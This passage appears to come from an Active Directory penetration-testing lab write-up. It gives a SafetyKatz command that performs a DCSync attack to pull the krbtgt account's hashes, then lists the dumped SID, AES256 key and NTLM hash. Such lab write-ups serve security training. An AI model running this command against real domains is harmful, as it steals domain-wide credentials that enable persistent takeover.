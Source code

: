 
<br/>

Then use `SafetyKatz.exe` again to perform a DCSync attack to obtain the hashes of `krbtgt`:

```
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:us\krbtgt" "exit"
```

![picture 44](images/55c0f5e6610f407af67483dcfdaaa1a75ab9f8b66f3254da297b17f1b07644ef.png)  

Note:
krbtgt
- SID: `S-1-5-21-210670787-2521448726-163245708-502`
- AES256: `5e3d2096abb01469a3b0350962b0c65cedbbc611c5eac6f3ef6fc1ffa58cacd5`
- NTLM: `b0975ae49f441adc6b024ad238935af5`
